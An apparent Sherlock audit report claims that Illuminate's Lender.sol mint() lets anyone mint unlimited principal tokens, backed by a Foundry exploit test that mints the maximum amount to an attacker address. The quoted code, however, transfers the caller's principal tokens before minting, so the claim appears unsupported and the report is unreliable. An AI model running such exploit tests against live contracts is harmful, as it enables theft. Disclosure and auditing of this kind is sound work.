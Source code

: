 0xmuxyz

high

# Any external users can mint any amount of the Illuminate principal tokens due to lack of validations on mint() function in the Lender.sol

## Summary
- Any external users can `mint` any amount of the Illuminate principal tokens due to lack of validations on `mint()` function in the Lender.sol.

## Vulnerability Detail
- Lack of validations on `mint()` function that allow any external users to be able to mint any amount of the Illuminate principal tokens (Illuminate's ERC5095 tokens).

## Impact
- There is no validations such as `access control modifiers` on `mint()` function in the Lender.sol.
   - As a result, any external users can mint any amount of the Illuminate principal tokens (Illuminate's ERC5095 tokens) directly via calling `mint()` function directly. 
     - This lead to an exploit that give large fixed-rate positions to malicious attackers (attacker's wallet or attacker's contract) without lending proper amount of underlying tokens.

## Code Snippet (include PoC)
- This vulnerability is at the line of `mint()` function in the Lender.sol.
  - As we can see code snippet below, there is no validations such as access control modifiers on `mint()` function.
https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L270-L288
```solidity
    function mint(
        uint8 p,
        address u,
        uint256 m,
        uint256 a
    ) external unpaused(u, m, p) returns (bool) {
        // Fetch the desired principal token
        address principal = IMarketPlace(marketPlace).token(u, m, p);

        // Transfer the users principal tokens to the lender contract
        Safe.transferFrom(IERC20(principal), msg.sender, address(this), a);

        // Mint the tokens received from the user
        IERC5095(principalToken(u, m)).authMint(msg.sender, a);

        emit Mint(p, u, m, a);

        return true;
    }
```
↓
- **PoC**：https://github.com/sherlock-audit/2022-10-illuminate-masaun/tree/PoC_exploit_mint-method/test/exploit
   (Code of test exploit of `mint()` method：https://github.com/sherlock-audit/2022-10-illuminate/blob/main/test/exploit/LenderExploit.t.sol#L151-L173 )
```solidity
    //@dev - This is a vulnerability that anyone can mint iPTs (the Illuminate Principal Tokens)
    //@dev - Below is a PoC of exploit of Lender#mint()
    function testExploit_mint() public {
        //@dev - Create a EOA address of an attacker
        address ATTACKER = makeAddr("attacker");

        //@dev - Set the attacker's EOA address as a caller
        vm.startPrank(ATTACKER);

        //@dev - Mint iPTs to the attacker's EOA address
        uint8 p = 1;
        address u = underlying;  // Mock underlying token (ERC20)
        uint256 m = 1;
        //uint256 a = 1;                // Minted-amount is 1
        uint256 a = type(uint256).max;  // Minted-amount is max amount
        bool resultOfMint = l.mint(p, u, m, a);
        assertEq(resultOfMint, true);

        vm.stopPrank();

        //@dev - Check the result whether max amount of iPTs are minted to the attacker's EOA address or not
        uint iptBalanceAfterExploit = ipt.mintCalled(ATTACKER);
        console.log("iPT balance of the attacker's EOA address (after this exploit):", iptBalanceAfterExploit);
        assertEq(iptBalanceAfterExploit, a);
    }
```

   ↓
   - Result of **PoC** above：
      - At first, we can see that an attacker's EOA address `mint` max amount of iPTs. (= 115792089237316195423570985008687907853269984665640564039457584007913129639935)
      - Finally, we can confirm that the iPT balance of an attacker's EOA address after exploit is max amount of iPTs. (by using `IlluminatePrincipalToken#mintCalled()` method)
         <img width="1434" alt="Screen Shot 2022-10-30 at 17 47 43" src="https://user-images.githubusercontent.com/19357502/198870198-5c38fa51-8a72-47ef-9993-36a69f4c6f95.png">

<br>

## Tool used
- Manual Review in Foundry

## Recommendation
- Should implement the [Role-Based Access Control](https://docs.openzeppelin.com/contracts/4.x/access-control#role-based-access-control) in order to mitigate this vulnerability. 
   - For example, using the [Access Control module](https://docs.openzeppelin.com/contracts/4.x/access-control#using-access-control) provided by @openzeppelin/contracts is better to manage access rights of each users.
      - Using `onlyRole()` modifier and `hasRole()` function of @openzeppelin/contracts are useful in order to check whether a caller (msg.sender) of mint() function is the caller who has proper role or not. 
         https://docs.openzeppelin.com/contracts/4.x/access-control#using-access-control